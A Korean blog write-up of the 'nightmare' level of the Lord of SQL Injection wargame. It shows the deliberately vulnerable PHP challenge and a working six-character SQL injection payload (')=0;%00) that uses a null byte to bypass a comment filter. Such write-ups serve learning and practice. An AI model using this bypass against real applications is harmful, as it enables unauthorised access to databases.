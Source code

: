 ```yaml
---
title: "[Lord of SQL Injection] LoS - nightmare 문제풀이"
date: 2018-08-06
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번 문제는 `nightmare`이다.
문제 이름 답게 엄청 고민 많이 했던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('') and id!='admin'
------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

이번에는 주석으로 사용했던 문자들이 다 필터링이 걸려 있다.
그리고 글자 수도 6글자 이내로 적어야 한다는 제한도 있다.
그럼 일단 주석에 대한 필터링도 우회해야 하고, `pw`에 `('')` 이런식으로 괄호가 생겨서 이 것도 어떻게 해결해야 할지 고민해야 했다.
결론적으로 이건 문제를 못풀겠어서 인터넷을 찾아봤었다.  

쿼리를 작성할 때, `pw=1=1` 형태로도 쓸 수 있다.
이럴 경우, `1=1`은 참이기 때문에 `pw=참`이 되어 쿼리가 정상적으로 실행된다.
이미 쿼리에 `('')` 은 있으므로, 이 공백과 비교했을 때 참이될 수 있는 값은 `0`이다.
이를 실제로 테스트 해 보기 위해 아래와 같이 `mysql`을 실행시켜보았다.  

```bash
mysql> select ''=0 ;
+------+
| ''=0 |
+------+
|    1 |
+------+
1 row in set (0.01 sec)

```

결과값이 1이 나오는 것을 알 수 있다.
그래서 `')=0`을 넣고, 뒤의 나머지 조건을 무시하게 하기 위해서 `;`과 `null`을 넣어주었다.  

```plain
?pw=')=0;%00
```

그랬더니 문제를 풀 수 있었다.  

```php
------------------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('')=0;') and id!='admin'
------------------------------------------------------------------------------------------------

NIGHTMARE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
NIGHTMARE Clear!!
```